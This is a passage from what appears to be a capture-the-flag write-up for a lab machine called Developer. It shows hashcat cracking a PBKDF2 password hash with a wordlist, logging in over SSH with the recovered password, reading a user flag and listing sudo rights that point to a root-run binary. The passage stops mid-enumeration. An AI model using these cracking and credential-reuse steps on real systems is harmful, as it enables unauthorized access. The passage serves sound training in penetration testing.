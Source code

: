     
    
    $ hashcat -m 10000 karl.hash /usr/share/wordlists/rockyou.txt 
    ...[snip]...
    pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI=:insaneclownposse
    

### SSH

That password actually works for karl over SSH:

    
    
    oxdf@parrot$ sshpass -p insaneclownposse ssh karl@10.10.11.103
    ...[snip]...
    karl@developer:~$
    

And I can get the user flag:

    
    
    karl@developer:~$ cat user.txt
    700c0e85************************
    

## Shell as root

### Enumeration

karl can run a binary named `authenticator` as root with `sudo`:

    
    
    karl@developer:~$ sudo -l
    [sudo] password for karl: 
    Matching Defaults entries for karl on developer:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User karl may run the following commands on developer:
        (ALL : ALL) /root/.auth/authenticator
    

I can’t read in `/root`, but I can access that directory. That’s the only file
in that directory:

    
    
    karl@developer:~$ ls -l /root/
    ls: cannot open directory '/root/': Permission denied
    karl@developer:~$ ls -l /root/.auth
    total 10408
    -rwxr-xr-x 1 root root 10654632 May 26  2021 authenticator
    karl@developer:~$ ls -ld /root/.auth
    drwxr-xr-x 2 root karl 4096 May 26  2021 /root/.auth
    

I was thinking it might be something related to 2FA, but running shows it’s
custom for Developer:

    